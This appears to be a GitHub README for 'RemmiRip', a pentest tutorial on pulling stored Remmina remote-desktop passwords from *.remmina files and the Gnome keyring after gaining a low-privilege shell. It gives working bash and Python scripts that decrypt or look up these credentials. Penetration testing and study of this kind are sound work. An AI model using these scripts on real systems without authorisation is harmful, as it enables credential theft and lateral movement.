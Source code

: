 # RemmiRip
Lifting Remmina Credentials from Gnome Keyring

Remmina is a popular multipurpose remote desktop client for Linux capable of supporting RDP, VNC, SSH and more.  This article will describe how to recover a user's stored Reminna credentials from the Gnome keyring once a low-priv shell is obtained during a pentest.  Credentials obtained this way would allow lateral movement and privilege escalation on additional systems.

https://remmina.org/

Users can create sessions and optionally store logon credentials.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r00.png)

If the Gnome keyring daemon is not available on the target system then passwords are stored as encrypted base64 strings in the \*.remmina files, which can be decrypted by the key (secret) found in the remmina.pref file.  Methods of recovering passwords from these files is well documented.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r07.png)

https://www.rapid7.com/db/modules/post/multi/gather/remmina_creds

https://village.oyaore.com/home/post/2523/recover-lost-saved-remmina-remote-desktop-client-password

https://gist.github.com/selu/6359496

Here is a sample bash script that decrypts the non-keyring secrets stored in the \*.remmina files:

```bash
#!/bin/bash

echo -e "Enter the base64 secret from \"remmina.pref\":"
read RKEY

echo -e "\nEnter the base64 encrypted password from the \".remmina\" file:"
read REPW

KIV=($(echo -n $RKEY | base64 -di | xxd -p -c 24))
EPW=$(echo -n $REPW | base64 -di | xxd -p -c 256)

echo -e "\nThe decrypted password will appear in the output below:\n"

echo -n $EPW | xxd -r -p | openssl enc -des3 -nosalt -nopad -K "${KIV[0]}" -iv "${KIV[1]}" -d | hexdump -Cv
```

**Step 1**

The assumption is that you already have a low-priv shell as some user on the target system that has Remmina configuration files.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r01.png)

**Step 2**

Determine the location of the \*.remmina session configuration files if they exist.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r02.png)

**Step 3**

Verify that the Gnome keyring service is in use.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r03.png)

**Step 4**

If you check the \*.remmina configuration files "password" variable and the value is "." then the session passwords are stored in the Gnome keyring.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r04.png)

**Step 5**

The easiest way to recover the passwords is to see if the "secret-tool" utility is installed on the target system.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r05.png)

If so, then just loop through the file names performing a lookup on entries in the Gnome keyring.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r06.png)

**Step 6**

If the "secret-tool" utility is not present then try to extract the passwords with python.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r08.png)

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r09.png)

Here is the python script:

```python
#!/usr/bin/python

from gi.repository import Secret

EXAMPLE_SCHEMA = Secret.Schema.new("org.remmina.Password",
    Secret.SchemaFlags.NONE,
    {
        "filename": Secret.SchemaAttributeType.STRING,
        "key": Secret.SchemaAttributeType.STRING,
    }
)

password = Secret.password_lookup_sync(EXAMPLE_SCHEMA, { "filename": "/home/bill/.local/share/remmina/1541257445686.remmina", "key": "password" }, None)
print password
```

Here is a sample output after running the python script:

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r10.png)
